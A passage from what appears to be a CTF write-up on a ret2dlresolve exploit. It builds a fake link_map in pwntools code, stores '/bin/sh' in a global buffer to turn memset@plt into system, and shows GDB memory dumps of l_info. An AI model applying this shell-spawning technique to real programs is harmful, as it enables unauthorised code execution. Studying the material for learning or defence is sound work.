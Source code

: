 `_dl_fixup` just use l_info so any other variable in linkmap struct will be null.

```
linkmap_struct = p64(0)         # l_addr
linkmap_struct += p64(0)        # l_name
linkmap_struct += p64(0)        # l_ld
linkmap_struct += p64(0)        # l_next
linkmap_struct += p64(0)        # l_prev
linkmap_struct += p64(0)        # l_real
linkmap_struct += p64(0)        # l_ns
linkmap_struct += p64(0)        # l_libname
```

Also we just need to focus on `DT_STRTAB (5)`, `DT_SYMTAB (6)`, `DT_JMPREL (23)` because `_dl_fixup` has them. So other l_info can be null too.
```
linkmap_struct += p64(0)        # l_info[0]
linkmap_struct += p64(0)        # l_info[1]
linkmap_struct += p64(0)        # l_info[2]
linkmap_struct += p64(0)        # l_info[3]
linkmap_struct += p64(0)        # l_info[4]
```

With l_info[5] will equal to l_info[DT_STRTAB] which we want to change. So we pause here and switch to build DT_STRTAB using buf variable. As we know the buf is global so that we can get its address. We will abuse the memset@plt after scanf@plt to do a ret2solve. 

Luckily, first argument for memset is buf and memset after overwrite linkmap will turn to system --> spawn shell. So our buf need string "/bin/sh" at first:

```
buf_addr = 0x601080
buf_data = b'/bin/sh\x00'    # len(buf_data) = 8
```

Next, we need to build fake DT_STRTAB structure. Look at GDB, we can see that structure of l_info[DT_STRTAB] will be like this:

```
gef➤  # x/50xg linkmap
gef➤  x/50xg 0x00007ffff7ffe180
0x7ffff7ffe180:    0x0000000000000000    0x00007ffff7ffe720
0x7ffff7ffe190:    0x0000000000600e20    0x00007ffff7ffe730
0x7ffff7ffe1a0:    0x0000000000000000    0x00007ffff7ffe180
0x7ffff7ffe1b0:    0x0000000000000000    0x00007ffff7ffe708
0x7ffff7ffe1c0:    0x0000000000000000    0x0000000000600e20    <-- l_info at 0x7ffff7ffe1c0
0x7ffff7ffe1d0:    0x0000000000600f00    0x0000000000600ef0
0x7ffff7ffe1e0:    0x0000000000000000    0x0000000000600ea0    <-- l_info[5] = 0x0000000000600ea0
0x7ffff7ffe1f0:    0x0000000000600eb0    0x0000000000600f30
0x7ffff7ffe200:    0x0000000000600f40    0x0000000000600f50

gef➤  # x/2xg l_info[DT_STRTAB] = l_info[5]
gef➤  x/2xg 0x0000000000600ea0
0x600ea0:    0x0000000000000005    0x0000000000400380        <-- STRTAB
```
